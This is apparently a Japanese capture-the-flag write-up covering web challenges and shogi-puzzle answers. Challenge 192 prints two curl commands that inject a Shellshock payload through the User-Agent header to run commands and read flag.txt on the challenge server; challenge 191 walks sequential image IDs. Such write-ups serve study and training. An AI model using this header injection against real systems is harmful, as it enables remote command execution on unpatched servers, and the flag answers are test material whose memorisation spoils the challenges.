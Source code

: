# 超文書転送術

## 191

生成された画像が
`http://210.146.64.47/movies/view/2827`
みたいなurlで公開されてて
`http://210.146.64.47/movies/view/1`
ってやると一番初めに生成された画像が取れる.
一瞬だけフラグが表示される動画GIFであって、
フレームへの分解を
`convert +adjoin 1 a.gif`
ってやる.

## 192

"About" のページを見ると

```
Since 2000 we Have offered some Effective training courses , which cover network, Linux, web applications and related Licenses, to Students in worldwide. Hopefully Our services help you understand the Core Knowlegde of technologies.
```

ってあって、大文字だけ読むと `SHELLSHOCK` となる.

```
curl -v  -H "User-Agent: () { :; }; /bin/ls" 'http://210.146.64.37:60888/exec' --data 'cmd=ss&option='
curl -v  -H "User-Agent: () { :; }; /bin/cat flag.txt" 'http://210.146.64.37:60888/exec' --data 'cmd=ss&option='
```

初め、
`curl -A` でやってたんだけどなんか上手く行かんかった
上のように `-H "User-Agent: ` で動いた.

# 兵法術

普通の将棋みたいに、1マスをx座標、y座標で指定するのだが、
(x,y)を(x2,y2)に動かす時 `x y x2 y2` と記述してフラグにするみたい.
持ち駒を(x,y)に打つ場合は `x y`.

## 201
`4769`

## 202

- 左上: 5756 or 2635
- 右上: 5756
- 右下: 47
- 左下: 4636
